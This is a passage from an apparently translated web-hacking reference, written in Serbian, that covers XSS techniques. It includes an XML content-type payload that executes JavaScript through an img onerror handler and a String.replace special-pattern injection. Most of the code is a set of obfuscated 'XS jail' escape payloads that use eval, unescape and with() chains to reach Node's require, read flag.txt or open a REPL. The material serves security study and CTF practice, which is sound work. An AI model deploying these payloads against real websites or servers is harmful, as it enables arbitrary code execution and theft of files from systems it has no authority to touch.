 U drugim pregledačima druge **`Content-Types`** mogu se koristiti za izvršavanje proizvoljnog JS koda, proverite: [https://github.com/BlackFan/content-type-research/blob/master/XSS.md](https://github.com/BlackFan/content-type-research/blob/master/XSS.md)

### xml Content Type

Ako stranica vraća sadržaj sa content-type text/xml, moguće je naznačiti namespace i izvršiti proizvoljni JS:

```xml
<xml>
<text>hello<img src="1" onerror="alert(1)" xmlns="http://www.w3.org/1999/xhtml" /></text>
</xml>

<!-- Heyes, Gareth. JavaScript for hackers: Learn to think like a hacker (p. 113). Kindle Edition. -->
```

### Posebni obrasci zamene

Kada se koristi nešto poput **`"neki {{šablon}} podaci".replace("{{šablon}}", <korisnički_unos>)`**, napadač može koristiti [**posebne zamene niski**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global\_Objects/String/replace#specifying\_a\_string\_as\_the\_replacement) da pokuša da zaobiđe neke zaštite: ``"123 {{šablon}} 456".replace("{{šablon}}", JSON.stringify({"ime": "$'$`alert(1)//"}))``

Na primer, u [**ovom objašnjenju**](https://gitea.nitowa.xyz/nitowa/PlaidCTF-YACA), ovo je korišćeno da **izbegne JSON nisku** unutar skripte i izvrši proizvoljan kod.

### Chrome Keš u XSS

{% content-ref url="chrome-cache-to-xss.md" %}
[chrome-cache-to-xss.md](chrome-cache-to-xss.md)
{% endcontent-ref %}

### XS Jails Bekstvo

Ako imate ograničen skup karaktera za korišćenje, proverite ova druga validna rešenja za XSJail probleme:

```javascript
// eval + unescape + regex
eval(unescape(/%2f%0athis%2econstructor%2econstructor(%22return(process%2emainModule%2erequire(%27fs%27)%2ereadFileSync(%27flag%2etxt%27,%27utf8%27))%22)%2f/))()
eval(unescape(1+/1,this%2evalueOf%2econstructor(%22process%2emainModule%2erequire(%27repl%27)%2estart()%22)()%2f/))

// use of with
with(console)log(123)
with(/console.log(1)/)with(this)with(constructor)constructor(source)()
// Just replace console.log(1) to the real code, the code we want to run is:
//return String(process.mainModule.require('fs').readFileSync('flag.txt'))

with(process)with(mainModule)with(require('fs'))return(String(readFileSync('flag.txt')))
with(k='fs',n='flag.txt',process)with(mainModule)with(require(k))return(String(readFileSync(n)))
with(String)with(f=fromCharCode,k=f(102,115),n=f(102,108,97,103,46,116,120,116),process)with(mainModule)with(require(k))return(String(readFileSync(n)))

//Final solution
with(
/with(String)
with(f=fromCharCode,k=f(102,115),n=f(102,108,97,103,46,116,120,116),process)
with(mainModule)
with(require(k))
return(String(readFileSync(n)))
/)
```